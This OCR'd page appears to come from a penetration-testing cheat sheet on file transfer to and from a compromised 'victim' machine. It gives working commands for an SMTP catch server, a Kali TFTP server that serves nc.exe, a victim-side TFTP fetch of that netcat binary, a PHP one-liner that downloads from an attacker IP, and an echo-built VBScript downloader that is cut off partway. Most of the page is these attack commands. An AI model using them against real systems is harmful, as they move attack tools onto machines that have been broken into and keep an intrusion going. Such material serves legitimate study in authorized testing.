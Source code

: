 ## **SMTP**

If you can send data to an SMTP server, you can create a SMTP to receive the data with python:

```bash
sudo python -m smtpd -n -c DebuggingServer :25
```

## TFTP

By default in XP and 2003 (in others it need to be explicitly added during installation)

In Kali, **start TFTP server**:

```bash
#I didn't get this options working and I prefer the python option
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /path/tp/nc.exe /tftp
```

**TFTP server in python:**

```bash
pip install ptftpd
ptftpd -p 69 tap0 . # ptftp -p <PORT> <IFACE> <FOLDER>
```

In **victim**, connect to the Kali server:

```bash
tftp -i <KALI-IP> get nc.exe
```

## PHP

Download a file with a PHP oneliner:

```bash
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## VBScript

```bash
Attacker> python -m SimpleHTTPServer 80
```

#### Victim

```bash
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http =CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
```